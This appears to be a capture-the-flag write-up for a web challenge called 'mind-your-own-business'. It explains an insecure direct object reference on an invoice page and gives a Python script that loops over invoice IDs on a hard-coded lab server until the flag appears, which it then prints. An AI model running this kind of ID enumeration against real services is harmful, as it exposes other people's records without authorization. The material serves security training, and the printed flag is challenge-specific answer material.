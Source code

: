 Get the flag from mind-your-own-business.

We enter on the subscription page, then we fill in the credintials.
We observe after that after the creditential completion is good, the page redirect us to a invoice page.
If we change the invoice page index we then observe we get more invoicees but some of them are "Oops, no invoice".

So then we have to test all the invoices to check in which page we get the "SSS", which is at the page 10946. 


```py
import requests
import re


start = 1
end = 30000

session = requests.Session()

for invoice_id in range(start, end + 1):
    url = f"http://141.85.224.70:8085/invoice.php?invoice={invoice_id}"
    print(f"🔎 Verific {url}")

    try:
        response = session.get(url, timeout=5)
    except Exception as e:
        print(f"Eroare la {url}: {e}")
        continue


    if "Oops! Invoice not found!" in response.text:
        continue


    match = re.search(r"SSS\{.*?\}", response.text)
    if match:
        flag = match.group(0)
        print(f"\nFLAG la invoice={invoice_id}: {flag}\n")


        with open(f"invoice_{invoice_id}.html", "w", encoding="utf-8") as f:
            f.write(response.text)

        break
```

The found flag: **SSS{1ts_n0t_nic3_t0_sn00p_ar0und}**


